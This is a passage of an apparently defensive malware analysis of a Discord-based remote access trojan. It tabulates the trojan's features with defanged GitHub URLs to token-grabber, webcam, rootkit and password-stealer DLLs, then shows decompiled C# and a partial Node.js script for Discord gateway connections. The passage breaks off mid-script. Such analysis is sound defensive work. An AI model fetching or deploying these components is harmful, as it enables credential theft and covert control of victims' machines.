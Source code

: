 | C2-Client            | `!shell = Execute a shell command /Syntax  = "!shell whoami"`                                                        |
| Info-Stealer         | `File larger than 8mb, please wait while we upload to a third party!`                                                |
| Discod Token Grabber | `hxxps[://]raw[.]githubusercontent[.]com/moom825/Discord-RAT-2.0/master/Discord%20rat/Resources/Token%20grabber.dll` |
| Webcam Access        | `hxxps[://]raw[.]githubusercontent[.]com/moom825/Discord-RAT-2.0/master/Discord%20rat/Resources/Webcam.dll`          |
| Remove Rootkit       | `hxxps[://]raw[.]githubusercontent[.]com/moom825/Discord-RAT-2.0/master/Discord%20rat/Resources/unrootkit.dll`       |
| Install Rootkit      | `hxxps[://]raw[.]githubusercontent[.]com/moom825/Discord-RAT-2.0/master/Discord%20rat/Resources/rootkit.dll`         |
| Password Stealer     | `hxxps[://]raw[.]githubusercontent[.]com/moom825/Discord-RAT-2.0/master/Discord%20rat/Resources/PasswordStealer.dll` |

## 🔬 Reverse Engineerng

### Websocket Connection

Normally, I would continue with the binary's dynamic examination. However,
knowing the GitHub Repository and decompiling the c# code made it easy to dive
down this way.

The program starts by connecting to the discord gateway using a web socket. For
those who don't know, the Discord Gateway enables real-time, bidirectional
communication between Discord clients and servers. It allows clients to send
and receive messages and other updates in real-time. In our case, the Victim is
the client and the attacker's discord bot acts like the server.

```csharp
public static async Task MainAsync()
{
  Program.client.ResponseReceived = new Func<Stream, Task>(Program.Responsehandler);
  await Program.client.ConnectAsync("wss://gateway.discord.gg/?v=9&encording=json");
  ...
}
```

{: file="malware.cs"}

For a successful connection the discord authorization token is needed. There are
two types of authorization tokens available: 'User Authorization Token' and 'Bot Authorization Token'.
The attacker provided a 'Bot Authorization Token' within the malware. This is the same one
which was already found in static analysis. So the victim will from now on
listen to messages he receives from the attacker's discord bot. For a better
understanding, I created a small Node.js script for demonstration. You can use
your own Discord Authorization Token or create a Bot yourself and use this one.

```jsx
const WebSocket = require("ws");
const fs = require("fs");

var ws = new WebSocket("wss://gateway.discord.gg/?v=6&encoding=json");

// Create a file token.txt, which holds the discord token
// in the same directory as the script.
const token = fs.readFileSync("token.txt", "utf8").replace(/(\r\n|\r|\n)/g, "");

payload = {
  op: 2,
  d: {
    token: token,
    intents: 512,
    properties: {
      $os: "linux",
      $browser: "other",
      $device: "pc",
```